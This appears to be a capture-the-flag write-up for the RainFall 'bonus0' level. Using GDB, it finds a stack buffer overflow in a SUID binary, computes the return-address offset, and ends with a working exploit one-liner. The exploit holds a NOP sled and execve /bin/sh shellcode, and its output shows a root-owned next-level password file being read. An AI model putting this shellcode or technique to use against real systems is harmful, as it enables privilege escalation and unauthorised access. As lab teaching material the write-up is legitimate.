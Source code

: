 Login as `bonus0`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.39 -p 4242 -l bonus0
bonus0@192.168.0.39's password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```
A `SUID` executable is located in the home directory.
```shell
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
Program segfaults when receive input of 20 A's.
```shell
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Examine same scenario with GDB.
```gdb
bonus0@RainFall:~$ gdb ./bonus0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��

Program received signal `SIGSEGV`, Segmentation fault.
0x42424242 in ?? ()
```
Seems that EIP was overwritten with `BBBB`. Use pattern as second string to find offset.
```gdb
(gdb) break *main+39
Breakpoint 1 at 0x80485cb
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Breakpoint 1, 0x080485cb in main ()
(gdb) continue
Continuing.

Program received signal `SIGSEGV`, Segmentation fault.
0x41336141 in ?? ()
```
Decode bytes to find out which part of second string should be replaced with an address.
```python
>>> "41336141".decode('hex')
'A3aA'
```
Remember that it should be reversed as it lays differently on memory. So the result is Aa3A rather that A3aA.
Second input should be `Aa0Aa1Aa2<memory_address>a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A`
Now, a memory address of first string should be find.
```gdb
(gdb) set disassembly-flavor intel
(gdb) break *p+45
Breakpoint 1 at 0x80484e1
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484e1 in p ()
(gdb) disassemble
Dump of assembler code for function p:
   [...]
   0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000   # 4096
   0x080484d0 <+28>:	lea    eax,[ebp-0x1008]             # buff
   0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:	mov    DWORD PTR [esp],0x0
=> 0x080484e1 <+45>:	call   0x8048380 <read@plt>         # read(0, buff, 4096)
   [...]
End of assembler dump.
(gdb) p/x $eax
$1 = 0xbfffe680
(gdb) break *main+39
Breakpoint 2 at 0x80485cb
(gdb) continue
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -

Breakpoint 1, 0x080484e1 in p ()
(gdb) continue
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Breakpoint 2, 0x080485cb in main ()
(gdb) x/32wx 0xbfffe680
0xbfffe680:	0x41306141	0x61413161	0x33614132	0x41346141
0xbfffe690:	0x61413561	0x37614136	0x41386141	0x62413961
0xbfffe6a0:	0x31624130	0x41326241	0x62413362	0x35624134
0xbfffe6b0:	0x41366241	0x62413762	0x39624138	0x41306341
0xbfffe6c0:	0x63413163	0x33634132	0x41346341	0x63413563
0xbfffe6d0:	0x37634136	0x41386341	0x64413963	0x31644130
0xbfffe6e0:	0x41326441	0x41414100	0x41414141	0x41414141
0xbfffe6f0:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) x/1wx 0xbfffe689
0xbfffe689:	0x41336141
```
So, as it read at most 4096 bytes from `stdin`, a shell code can be placed as first string preceded by `NOP`.

Exploit and log on to the next level.
```shell
bonus0@RainFall:~$ (python -c "print('\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"; python -c "import struct; print('Aa0Aa1Aa2' + struct.pack('I', 0xbfffe6c0) + 'a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3')"; cat -) | /home/user/bonus0/bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2����a4Aa5Aa�� Aa0Aa1Aa2����a4Aa5Aa��
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
